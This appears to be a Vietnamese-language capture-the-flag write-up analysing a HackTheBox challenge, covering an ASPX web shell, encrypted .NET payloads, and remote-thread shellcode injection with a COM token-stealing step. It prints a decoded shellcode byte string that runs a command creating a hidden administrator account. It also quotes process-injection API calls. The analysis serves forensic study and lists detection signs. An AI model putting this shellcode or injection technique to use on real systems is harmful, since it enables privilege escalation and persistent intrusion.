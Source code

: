 ```yaml
---
title: HTB Window's Infinity Edge
published: 2025-07-24
description: ""
image: ""
tags: [Networking, MalwareAnalysis, Shellcode]
category: "Malware Analysis"
draft: false
lang: ""
---
```



# HTB Window's Infinity Edge
>author : kAiZ3n
>Decription : A motivated APT group has breached our company and utilized custom tooling. We've identified the implants on compromised systems and remediated the infection using advanced AntiVirus X. However, one server seems clean but has been exhibiting suspicious traffic. Can you spot something we could have missed while cleaning this system?
## Xử lý file pcap
![image](/images/hackmd/HyUa_qAIlx.png)

- Đầu tiên ta thấy Client gửi request tới server thông qua format multi data và ta thấy client đã Post một file upload.apsx thông qua /upload
tại lúc xử lý file tôi thấy nó sử dụng một Class Assembly.Load() đây được coi là red flag thường được dùng load các mal EXE or DLL
- Tạo môt Instance để runtime trong .NET
- sau đó nó sẽ truyền parameter vào là p and r
- p là dữ liệu người dùng trong requestFrom từ "data"
- r là hardcode 
![payload](/images/hackmd/HJtyO90Lge.jpg)
trích xuất ra file payload.exe check file nhanh với die thì đây là file .NET load vào ILSPY để đọc source
![image](/images/hackmd/S1i4O90Lxx.png)

- RequestForm["data"] là phân vùng bị enc code
- r là password như một hardcode key
- iv = "infinity_edgehtb" (hardcode)
- Attacker sẽ gửi payload ExecRunTime đã bị mã hóa thông qua RequestFrom['data']
- sau đó sẽ dùng key và iv decrypt và thực thi với Invoke
## Decryption Traffic
Check file pcap với các trường data= được gửi trong file shell.apsx
![image](/images/hackmd/rJrB5cCLlg.png)

![image](/images/hackmd/SkUNq9ALex.png)

Đây là script tôi xử lý
![decrypt](/images/hackmd/H1ilcqAUxg.jpg)

## Phân tích Traffic PlainText
Format output trong file Decrypt.bin
![image](/images/hackmd/HJnqq9ALll.png)
Đúng như idea ban đâu mỗi lần Request payload sẽ có một class SharPyShell và func ExecRunTime để Invoke và thực thi trên server theo như logic file NET


### Tiếp theo nó sẽ Drop một tool powershell script dùng để leo quyền (Privilege Escalation)
Spawn một cái powershell 
![payloadshell](/images/hackmd/SJxKCHALee.jpg)


![image](/images/hackmd/ByQU8IpLge.png)
Decrypt payload với base sau đó Xor với key
và chạy tools với các đối số 
Output 
![image](/images/hackmd/SJECLIaIlg.png)


### Xử lý Shellcode
Trong Script được gửi bởi attacker thì có 2 function InjectionShellcodeAsUser và InjectionShellcode

![payloadshell](/images/hackmd/SkyA3BCIxl.jpg)

snapshort ThreadParametes được truyền vào
![image](/images/hackmd/B1wgqGpIle.png)
1. Đăng nhập với user
2. Tạo một Process cmd.exe hoặc nếu Process có sẳn sẽ lấy PID được truyền vào hàm Injection Shellcode 
Mở Handle targetProcessHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, processId); đóng vai trò Spawn Host cho DLL
3. Tính size và allocate shellcode vào memory và tính toán offset trong Memory với VirtualAllocA() và ghi shellcode vào vùng nhớ đó trong Process với WriteMemory() 
**IntPtr codeMemAddress = VirtualAllocEx(targetProcessHandle, IntPtr.Zero, codeMemorySize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);**

4. Tạo thread trong tiến trình cmd.exe:
Tạo RemoteThread chạy shellcode tại codeMemAddress, truyền threadParameterAddress vào.

**Đây gọi là kỹ thuật RemoteThread Injection**
**Tương tự cho InjectionShellcode**

### Phân tích shellcode DLL với IDAPro
**Tại điểm này call InjectShellcode với Entry 0x2880**

Chương trình sẽ gọi tới EntryPoint

![image](/images/hackmd/BkVx6B08xl.png)
Chương trình sẽ parser input và truyền vào hàm Juicy với phần payload shellcode
```
ThreadParameter:
    [filepath]\0
    [application_name]\0
    [CLSID]\0
    [port_Source]\0
    [ip_source]\0
    [port Destination]\0
    [ip_Dest]\0
    [Size of Payload Shellcode]\0
    [string_after_number]

```
### Parser ThreadParameter
![code](/images/hackmd/BJYD9BRLel.png)
```
Output:
[+] Parsed Data:
  filepath: C:\Windows\Temp\x1fvogijp5pyzn7\9nu8w1q
  application_name: notepad.exe
  clsid: {4991d34b-80a1-4291-83b6-3328366b9097}
  port_or_id: 48278
  ip_source: 127.0.0.1
  extra_wstring: 135
  copied_ascii: 127.0.0.1
  Juicy Payload size: 402
  juicy_payload: b'\xfcH\x83\xe4\xf0\xe8\xc0\x00\x00\x00AQAPRQVH1\xd2eH\x8bR`H\x8bR\x18H\x8bR H\x8brPH\x0f\xb7JJM1\xc9H1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRAQH\x8bR \x8bB<H\x01\xd0\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0P\x8bH\x18D\x8b@ I\x01\xd0\xe3VH\xff\xc9A\x8b4\x88H\x01\xd6M1\xc9H1\xc0\xacA\xc1\xc9\rA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88H\x01\xd0AXAX^YZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9W\xff\xff\xff]H\xba\x01\x00\x00\x00\x00\x00\x00\x00H\x8d\x8d\x01\x01\x00\x00A\xba1\x8bo\x87\xff\xd5\xbb\xf0\xb5\xa2VA\xba\xa6\x95\xbd\x9d\xff\xd5H\x83\xc4(<\x06|\n\x80\xfb\xe0u\x05\xbbG\x13roj\x00YA\x89\xda\xff\xd5cmd /c "net user /add admin_infinity ""Password2!"" /Y & net localgroup Administrators admin_infinity /add & echo xGk89_Ew > C:\\xor.k"\x00'
```
trong Hàm Juicy có tạo một Thread với function StartAddress cho việc xử lý Connection Network
và tại hàm Juicy tiếp quy trình Spawn Host Process và Injection Shellcode với **CreateRemoteThread**
![image](/images/hackmd/SJwmASRIll.png)
**Thành phần	Mục đích**
- a1 (CLSID)	Gọi COM trigger để lấy token SYSTEM
- a3, a4 (payload, size)	Shellcode được inject vào process mới
- CoGetInstanceFromIStorage	Trigger đối tượng COM
- CreateProcessWithTokenW / CreateProcessAsUser	Tạo process với token SYSTEM
WriteProcessMemory + CreateRemoteThread	Inject và thực thi payload

**Dấu hiệu tấn công / detection**
- Tạo ILockBytes, IStorage giả.
- Gọi CoGetInstanceFromIStorage với CLSID lạ.
- CreateProcessWithTokenW + VirtualAllocEx + WriteProcessMemory
- CLSID thường là COM hijack hoặc UAC bypass trigger.

Dump shellcode payload juicy ra va dung Floss
![image](/images/hackmd/ryhHZURLgl.png)
### InjectShellcodeAs be called và xử lý với x64dbg
![InjectShellcodeAS](/images/hackmd/Skd2W8CLlx.png)
![image](/images/hackmd/ry_lMU0Lgg.png)
shellcode này có dung tệp C:\xor.k được  tạo từ shellcode juicy payload
tôi sử dụng shcode2.py để convert shellcode.bin to EXE và debug nó trong x64dbg
![image](/images/hackmd/B1axpKAUee.png)
ngay tại điểm đầu code nó đã call một function và ta thấy các giá trị "C:\xor.k được hiển thị"
![image](/images/hackmd/S1Q2pFRUge.png)
Thử debug và chương trình đã bị crash ở vùn đọc file tôi nghĩ do không thể truy cập vùng nhớ lúc đọc file và tôi sẽ cấp quyền cho 2 vùng nhớ [rsp+10] và [rsp+20] sau đó debug tiếp
Tại offset 
```
mov qword ptr ss:[rsp+10h] ,rbx 
```
cấp quyền Write cho phân vùng này của kernel32 để sử dụng WriteFile/ReadFile ghi dữ liệu
![image](/images/hackmd/B1GLmqR8lx.png)
ER-- to ERW--
Tại offset
```
mov qword ptr ss:[rsp+20], r9
```
cấp quyền cho phân vùng r9
![image](/images/hackmd/SyJy4qRLxg.png)
![image](/images/hackmd/r1Sb450Uxe.png)
của .text file shel2.exe cho phép đọc và ghi dữ liệu
Do không có quyền truy cập vùng nhớ file và tôi phải patch nên dữ liệu đọc được sẽ là giá trị rác
![image](/images/hackmd/BJ2erqRLgx.png)

đặt breakpoint ở offset = 00007FF6214B1145
Fix lại giá trị rác của [rsp+161]
```
FF FE 78 00 47 00 6B 00 -> xGk89_Ew
```
vì thế đến đoạn xử lý [rsp+161] được coi là buffer of File tôi sẽ điền value file ở đó
và tiếp tục xor để lấy flag
![image](/images/hackmd/SkTrrqA8xg.png)

PS: Bài này mình thấy khá là nặng về Obfuscation và Reverse Engineering nếu như intend solution không cần phải guessy
